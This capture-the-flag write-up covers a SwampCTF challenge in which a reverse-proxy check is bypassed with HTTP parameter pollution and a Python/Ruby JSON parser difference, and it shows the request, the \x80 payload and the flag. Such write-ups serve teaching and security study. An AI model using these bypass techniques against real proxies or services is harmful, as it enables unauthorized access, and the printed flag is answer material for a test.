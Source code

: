 
# CTF Write-up: Reverse Proxy Bypass  

## Challenge Description  
> *I have created a safe reverse proxy that only forwards requests to retrieve debug information from the backend. What could go wrong?*  

### Target  
- **Website**  

### Files Provided  
- **contamination.zip**  
  - `Proxy/server.rb`  
  - `Backend/backend.py`  

---

## Solution  

### 1. Analyzing the Backend  
Looking at **backend.py**, we found the following routes:  
- **`getFlag`** – *Seems to retrieve the flag if an exception occurs.*  
- **`getInfo`** – *Returns non-useful debug information.*  

The **proxy (server.rb)** prevents direct access to `getFlag`, only allowing requests to `getInfo`.

---

### 2. Bypassing the Proxy  
We experimented with the API requests and found a **bypass technique** using **parameter pollution**:  

```http
http://chals.swampctf.com:41234/api?&action=getFlag&action=getInfo
```  

This bypasses the **proxy verification** and allows us to access the `getFlag` action.

---

### 3. Triggering an Exception in Python  
When sending **normal JSON**, we got:  
```json
{
  "message": "Parsed JSON successfully"
}
```  
This confirmed we were accessing `getFlag`, but we still needed to **crash the Python JSON parser** while keeping the **Ruby one intact**.

---

### 4. Finding the Exploit  
Through experimenting, we discovered that the following **malformed JSON** caused a crash in **Python’s JSON parser**, but **not in Ruby**:  

```json
{
  "key": "\x80"
}
```

This caused an **exception in Python**, revealing the **flag**.

---

## Flag  
```plaintext
swampCTF{1nt3r0p3r4b1l1ty_p4r4m_p0llut10n_x7q9z3882e}
```

---

## Tools & Techniques Used  
- **Source Code Review** – Understanding the **backend.py** and **server.rb** logic.  
- **Parameter Pollution** – Exploiting how **multiple parameters are handled** in URLs.  
- **JSON Parsing Quirks** – Using **non-UTF8 characters (`\x80`)** to crash Python’s JSON parser.  


---

🏆 **Final Flag:** `swampCTF{1nt3r0p3r4b1l1ty_p4r4m_p0llut10n_x7q9z3882e}`
